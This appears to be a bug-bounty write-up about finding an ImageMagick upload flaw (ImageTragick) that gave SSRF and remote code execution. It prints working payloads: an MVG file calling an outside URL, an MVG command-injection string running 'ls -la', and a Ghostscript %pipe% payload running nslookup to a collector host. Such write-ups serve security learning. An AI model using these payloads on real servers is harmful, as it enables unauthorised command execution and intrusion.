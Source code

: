 ```yaml
---
title: Unrestricted File Upload Leads to SSRF and RCE
author: Muhammad Adel
date: 2021-011-10 19:40:00 +0200
categories: [Bug Hunting]
tags: [bug hunting, web, writeups]
---
```

## **Introduction**
Peace be upon you all, I am going to share with you a vulnerability which I have found almost a year ago and it is really remarkable for me because it was the first critical one for me any way let's jump in.

## **ImageMagick**
It is a package commonly used by web services to process images. A number of image processing plugins depend on the ImageMagick library, including, but not limited to, PHP's imagick, Ruby's rmagick and paperclip, and nodejs's imagemagick.. it has been commonly exploited in 2016 when Nikolay Ermishkin from the Mail.Ru Security Team discovered several vulnerabilities in it under the CVEs **(CVE-2016-3714 - CVE-2016-3718 - CVE-2016-3715 - CVE-2016-3716 - CVE-2016-3717).** you can know more information about the vulnerability form here:  
[https://imagetragick.com/](https://imagetragick.com/)
## **The Finding**
I was testing the target for a couple of days and I was able to find multiple trivial XSS that's gave me an indication that this target didn't tested well before. Also, the target was running with PHP and I love it as Bug Hunter :). I looked for the file upload vulnerability and I started by sending it to burp plugin which test the file upload vulnerability. after some minutes I saw that red message that the target is vulnerable to CVE-2016-3714. great it is time for validating.

### **SSRF via CVE-2016-3718**
I will setup burp collaborator to receive the connection then simply add the following payload and replace with my your web server URL:

```
push graphic-context
viewbox 0 0 640 480
fill 'url(http://example.com/)'
pop graphic-context
```

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-MCqUkL4kqM1UUu5XPc6%2Fuploads%2FRRICM91g9OJ6HA9gLHTI%2FImagetragick%20CVE-2016-3718_redacted.png?alt=media&token=67ecf899-b8c0-4627-9fa8-745bf4d20843)

### **RCE via CVE-2016-3714**

Now, we have confirmed that it is using the image magic library and it is vulnerable to SSRF so let's try to get RCE.
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg";|ls "-la)'
pop graphic-context
```

I tried it but it didn't give back anything. maybe it is blind?

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-MCqUkL4kqM1UUu5XPc6%2Fuploads%2Ferrm4RKgIvm3SHHVxJ2Q%2FImagetragick%20CVE-2016-3718%20Payload.png?alt=media&token=aab34ad1-4c87-4bfe-8bc3-45c130d1893b)

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-MCqUkL4kqM1UUu5XPc6%2Fuploads%2F0E7YUTHCDpWGo4963XkO%2FCollaborator%20CVE-2016-3718.png?alt=media&token=40aea20d-3428-4a61-86b6-98571a34ffae)

Great it is working perfectly!!

### **RCE via GhostScript**
After digging deeper I found that it is also vulnerable to ghostscript vulnerability which also will allow us to get RCE. let's see the following payload:

```
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%nslookup <url>) currentdevice putdeviceprops
```
![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-MR5KvOL_gXbwMWP6Z6m%2Fuploads%2FhyxVQVe6vG7InHA9B1H7%2FGhostscript%20RCE%20via%20File%20Upload%20redacted.png?alt=media&token=7ec3f68f-dc3d-452d-9c3a-10dc53dd9c36)

## **Conclusion**
I hope you enjoyed reading this and if you have any question feel free to ping me any time, Happy Hunting!
